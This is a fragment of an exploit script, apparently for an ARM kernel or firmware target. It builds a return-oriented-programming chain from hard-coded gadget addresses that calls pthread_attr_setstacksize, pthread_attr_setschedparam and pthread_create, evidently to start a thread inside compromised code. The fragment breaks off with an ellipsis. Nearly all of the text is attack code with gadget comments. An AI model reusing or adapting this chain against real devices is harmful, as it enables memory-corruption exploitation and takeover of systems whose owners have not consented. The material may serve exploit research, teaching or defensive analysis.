 ```
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc01fdb84) # r5 <- address of pthread_attr_setstacksize
rop_chain += p32(0xc09cc4a8) # r6 <- address of our attribute thing (copied into r0)
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0x00004000) # r8 <- stack size (copied into r1)
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |  
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |

## call pthread_attr_setstacksize
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc01fdacc) # r5
rop_chain += p32(0xc09cc4a8) # r6 <- address of our attribute thing (copied into r0)
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0xc04528b8) # r8 <- pointer to 0xf (schedparam)
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |  
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |

## call pthread_attr_setschedparam
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0xc0011590) # r4
rop_chain += p32(0x00000000) # r5 <- has to be null
rop_chain += p32(0xc09cc3a8) # r6 <- address thread id gets saved to
rop_chain += p32(0xc03adfec) # r7
rop_chain += p32(0xc09cc4a8) # r8 <- address of attribute thing
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |   
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |
# | 0xc03adfec | cpy r3,r5 | c03adfec | blx r4 |  

# | 0xc0011590 | ldmia sp!,{r4,r5,r6,r7,r8,pc} |
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0xc00388dc) # r6
rop_chain += p32(0xc04773a0) # r7
rop_chain += p32(0xc08e4ee0) # r8 <- malloc'd buffer (gets copied into r2)
rop_chain += p32(0xc057248c) # pc

# | 0xc057248c | c057248c | ldr r5,[r8,#0x0] | c0572490 | blx r7 | 

# | 0xc04773a0 | c04773a0 | cpy r2,r5 | c04773a4  | blx r6 | 

# | 0xc00388dc | ldmia sp!,{r4,r5,pc} |
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0xc037d578) # r5 <- address of pthread_create
rop_chain += p32(0xc03edf0c) # pc

## call pthread_create and do fixup after
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 

...
```